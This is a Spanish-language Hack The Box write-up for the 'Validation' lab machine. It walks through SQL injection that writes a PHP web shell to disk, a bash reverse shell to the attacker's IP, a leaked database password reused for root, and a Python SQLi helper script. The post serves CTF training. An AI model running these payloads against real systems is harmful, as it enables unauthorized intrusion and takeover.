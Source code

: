 ```yaml
---
layout: single
title: Validation HTB - WriteUp
excerpt: WriteUp de la máquina Validation de HTB.
date: 2023-02-20
classes: wide
header:
  teaser: /assets/images/Validation/Validation.png
  teaser_home_page: true
  icon: /assets/images/Validation/Validation.png
categories:
  - infosec
tags:
  - ctf
  - Linux                                                                                                                                                                                 
  - Writeup
  - SQLI                                                                                                                                                                                  
  - Scripting                                                                                                                                                                                    
  - PasswordLeaked
---
```



En el dia de hoy estaré resolviendo la máquina Validation de HTB.

### Enumaración Inicial.

Lo primero que haremos será un escaneo de puertos con nmap.

```bash
 nmap -sC -sV -Pn -p22,80,4566,8080 10.10.11.116
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-20 09:54 CET
Nmap scan report for 10.10.11.116
Host is up (0.080s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)'
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds
```

Vemos 4 puertos abiertos:

- Puerto 22 -> OpenSSH 8.2p1 (no tenemos ni usuarios ni contraseñas)
- Puerto 80 ->  HTTP, tenemos una web que nos permite registrar usuarios por pais.
- Puerto 4566 -> HTTP, Una web que responde con un código de estado 403
- Puerto 8080 ->  HTTP, Responde con un código de estado 502

Lo primero que he hecho ha sido centrarme en el puerto 80, debido a que es el que tiene contenido accesible.

Lo primero que veremos será esto.

![](/assets/images/Validation/image1.png)

Podremos añadir usuarios a una lista de paises, voy a capturar la petición con Burpsuite y veré como se esta haciendo. He probado una inyección SQL en el pais añadiendo una comilla simple.

![](/assets/images/Validation/image2.png)

### Explotación Web.

Nos hace una redirección, si la seguimos no veremos ningun error... Pero si nos fijamos bien, nos está cambiando la cookie "user" intenté lo mismo con el valor de cookie nuvo y bingo...
Si seguimos la redirección tenemos SQLI.

![](/assets/images/Validation/image3.png)

Despues de enumerar ordenar las columnas (tiene 1) y enumerar a traves UNION SELECT bases de datos, tablas y columnas no encontré nada. En este momento intenté cargar archvios del sistema y ademas escribir en este.

![](/assets/images/Validation/image4.png)

Utilice este payload para ver si podía leer el passwd de la máquina víctima.

![](/assets/images/Validation/image5.png)

Podemos leer archivos del sistema... ¿Podremos escribir un archivo? Usaré este payload.

![](/assets/images/Validation/image6.png)

```php
username=test2&country=Brazil'union+select+'<?php+system($_GET["cmd"]);+?>'+into+outfile+'/var/www/html/shell.php'--+-
```

Gracias al error que provocamos inyectando una comilla sabemos la ruta del servidor web, si el payload anterior funciona guardaremos un archivo llamado shell.php que contendrá:

```php
<?php system($_GET["cmd"]); ?>
```

Esto nos permitirá pasarle comandos por GET por el parametro de consulta cmd. Si mandamos la petición con Burpsuite veremos que nos devuelve un error. Esto no significa que no se haya subido el archivo, vamos a ver si existe.

```bash
  curl -s -X GET "http://10.10.11.116/shell.php?cmd=id" 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Tenemos RCE ahora trataré de establecerme una revshell.

```bash
curl -s -G "http://10.10.11.116/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'"
```

Si miramos nuestro listener tendremos shell como el usuario www-data. 

```bash
 nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.116] 38848
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$
```

### Enumeración del sistema

Lo primero que hice fue hacer el tratamiento de la tty. https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/

Si nos fijamos en el passwd no había usuarios que tengan asignada una bash, unicamente root. En el directorio que contiene la web podemos encontrar un archivo de configuración. que contiene lo siguiente:

```bash
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

### Explotación del sistema

Si probamos esa password para el usuario root veremos que es valida.

```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html#
```

¡Happy Hacking!

### Bonus

Script para explotar el SQLI

```python
import requests,sys,signal,time
from bs4 import BeautifulSoup


proxies={"http":"http://127.0.0.1:8080"}
url="http://10.10.11.116/"


def handler(sig,frame):
        print ("\n[!] Saliendo...")
        sys.exit(1)

signal.signal(signal.SIGINT,handler)


def sqli(payload):

        data={"username":"test3","country":"{payload}".format(payload=payload)}

        s = requests.Session()
        r=s.post(url,data=data,proxies=proxies)
        response=r.text

        soup = BeautifulSoup(response, 'html.parser')
        print (soup.find_all(class_="text-white"))



if __name__ == '__main__':

        while True:

                payload  = input("\n$ Introduce el payload: ")
                sqli(payload)
```
